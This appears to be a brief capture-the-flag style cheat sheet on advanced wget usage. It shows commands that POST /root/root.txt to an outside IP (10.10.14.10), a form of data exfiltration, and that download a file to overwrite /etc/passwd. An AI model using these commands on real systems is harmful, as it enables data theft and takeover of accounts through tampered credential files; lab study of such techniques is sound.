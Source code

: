 ```yaml
---
title: "Advance wget"
date: 2024-7-5
tags: ["wget", "file transfer", "http", "web"]
---
```


---
### Advance wget

<div>

```bash
# Provide a file with urls
wget --input-file /root/root.txt
```

```bash
# POST a file
wget --post-file /root/root.txt http://10.10.14.10
```

```bash
# Overwrite a file
wget http://10.10.14.10/passwd.txt -O /etc/passwd
```

</div>

<br>